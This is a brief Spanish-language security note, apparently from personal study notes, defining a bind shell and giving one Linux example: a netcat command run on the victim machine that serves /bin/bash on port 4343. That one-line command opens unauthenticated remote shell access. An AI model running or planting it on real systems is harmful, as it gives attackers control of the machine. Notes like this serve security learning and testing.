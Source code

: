 Es aquella que se obtiene al servir una shell desde un puerto de la máquina víctima y conectarse a él desde la máquina atacante. Es lo opuesto a una [[Reverse shell]].

# Ejemplos

## Linux

### Netcat

```bash
nc -lvnp 4343 -e /bin/bash
```
> En la máquina víctima.